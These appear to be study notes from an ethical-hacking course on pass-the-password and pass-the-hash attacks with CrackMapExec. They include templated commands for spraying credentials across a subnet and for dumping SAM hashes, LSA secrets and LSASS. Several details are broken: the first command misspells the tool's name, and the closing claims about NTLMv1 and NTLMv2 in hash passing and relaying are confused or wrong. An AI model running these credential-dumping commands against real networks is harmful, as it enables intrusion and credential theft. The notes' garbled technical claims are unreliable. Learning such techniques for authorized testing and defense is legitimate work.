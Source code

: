 ```yaml
---
tags:
  - PEH
---
```

## What is Pass Password/Hash Attacks ?
If we crack a password and/or can dump the SAM hashes, we can leverage both for lateral movements in the network and that is by passing the password/hash to other accounts in the network and check if the user have a successful login in (local admin) anywhere else.
## Using CrackMapExec to execute the attack
### Pass the Password Attack
```bash
crackexecmap smb <network-address/CIDR> -u <user> -d <domain-name>.local -p <password>
```
### Pass the Hash Attack
```bash
crackmapexec smb <network-address/CIDR> -u administrator -H <hash> --local-auth
# Add --sam to dump SAM hashes as you sweep the network and login into devices
# Add --share to enumerate shares
# Add -lsa to dump the local security authority
# Add -M lsassy to run the LSASSY module which has the capability to dump the LSASS
```
>[!INFO] What is LSASS?
>LSASS stands for Local Security Authority Subsystem Service, LSASS is responsible for enforcing the security policy on the system but it does store credentials of the machine.

>LSA secrets are different than LSASS. For example, you can find cleartext passwords, service account passwords, and more in LSA. LSASS is a sub-system of LSA and stores things such as NTLM hashes for domain users, and Kerberos keys/tickets. `-lsa` dumps the LSA secrets and lsassy dumps LSASS. You can also dump LSASS via procdump, task manager, comsvcs, and a few other tooling.
>\- Gray, on TCM Discord server
### The database of CME
Access the database of `CrackMapExec`by using:
```bash
cmedb
# Run help to utilize different options
```
## Pass Attacks mitigations
![[Pass Attacks mitigations.png]]
## Important considerations

>[!INFO] SMB Relay and NTLMv2
>Only NTLMv2 can be relayed (SMB Relay Attack).

>[!INFO] Pass Hash Attack and NTLMv1
>Pass Hash Attack only works with NTLMv1